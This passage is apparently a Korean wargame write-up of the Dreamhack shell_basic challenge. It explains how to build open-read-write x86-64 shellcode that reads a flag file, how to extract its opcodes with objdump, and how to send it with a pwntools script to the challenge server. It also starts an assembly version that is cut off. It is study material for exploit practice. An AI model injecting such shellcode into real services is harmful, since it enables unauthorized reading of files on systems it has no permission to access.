 먼저 open콜에서 rsp에 문자열을 넣어준다. 여기서 리틀엔디언 저장 방식에 주의해주고, 맨 윗 줄에 push 0x0을 해준 이유는 기존 스택에서 문자열 이후에 저장된 값때매 정확히 문자열이 ng에서 끊기지 않을 수 있기 때문에 null 문자를 넣어주기 위함이다.
- 참고로 push 콜을 통해서는 최대 32비트 크기의 값밖에 못넣기 때문에 rax에 64비트 값을 먼저 mov 후 rax값을 push한다.
- 그리고, 8바이트 크기의 문자열이라도 rdi에 바로 문자열을 대입하면 안되고 rsp를 통해 `mov rdi, rsp`를 해줘야 하는 이유는,  
open 콜에서 첫번째 인자인 `filename`은 **`char형`이 아닌 `char*` 형이기 때문에**, rsp에 문자열을 저장하고 rdi에는 rsp의 주소를 저장해야 한다.

2. 차례대로 open, read, write 콜 이후 `rdi = 0x00(에러코드), rax = 0x3c`를 대입해 `exit(0)` 시스템 콜을 발생 후 종료한다.

3. 이후 `gcc -o  orw orw.c` 명령어를 통해 orw ELF 파일을 생성 후 `objdump -d orw`를 통해 orw의 디스어셈블(-d 옵션) 결과를 확인한다.
- objdump란, 쉽게 바이너리(ELF파일)의 정보를 보여주는 명령어라고 생각하면 됨 ELF executable 파일만 objdump 가능하므로 .o 파일(ELF relocatable 파일)은 불가능

4. orw 파일은 순수 어셈블리어 파일(.asm)이 아니므로 위 3. 결과에서 우리가 필요한 <run_sh> 함수 부분의 기계어 코드만 추출할 수 있도록 한다. <img width="840" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/b853b579-a05c-4f6a-8f10-a75918fbcbd4">

5. 해당 부분을 opcode로 변경하기 위해,     
`for i in $(objdump -d orw | grep "" | cut -f 2); do echo -n \\x$i; done`를 통해 hex 형식으로 변환 후 우리가 필요한 <run_sh> 부분만 확인하여 복사한다.
- `for i in $( )` : $( ) 내의 명령을 실행한 값을 반복하여 i로 접근
- `objdump -d [file_path]` : [file] 경로의 오브젝트 파일을 기계어로 역어셈블
- `grep "^ "` : 공백으로 시작하는 문자열 탐색 (ELF파일에 기계어는 ^뒤에 있으므로)<img width="829" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/f56e9700-64ec-421b-82bf-6ec869e64427">

- `cut -f 2` : 문자열의 2번째 필드만 추출
- `do echo -n \\x$i` : “\x” + 변수 i 값을 줄바꿈 없이 출력
- `done` : 반복문 종료 

6. 이후 pwntools를 이용하여 실제 원격 서버에 공격을 위한 python 파일을 생성 후 공격한다.
```
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 17846)

shellcode = b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\x31\xc0\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05'

p.sendlineafter('shellcode: ', shellcode)

print(p.recvuntil(b'}'))
```

## 풀이방법 2. 어셈블리어 코드(.asm) 작성

1. 위에서 skeleton 코드를 작성한 것과 달리 어셈블리어 코드를 작성하여 object파일 생성 후 이를 통해 opcode를 얻는 방법이다. 이를 위해 .asm 코드를 작성해준다.
```
section .text ; 섹션을 정해주는 부분 같음
global start ; 코드를 어디서 시작할지 정하는 것 같음
start:
    xor rax, rax
    push rax
    mov rax, 0x676e6f6f6f6f6f6f
    push rax
    mov rax, 0x6c5f73695f656d61
    push rax
    mov rax, 0x6e5f67616c662f63
    push rax
    mov rax, 0x697361625f6c6c65
    push rax
    mov rax, 0x68732f656d6f682f
    push rax
```
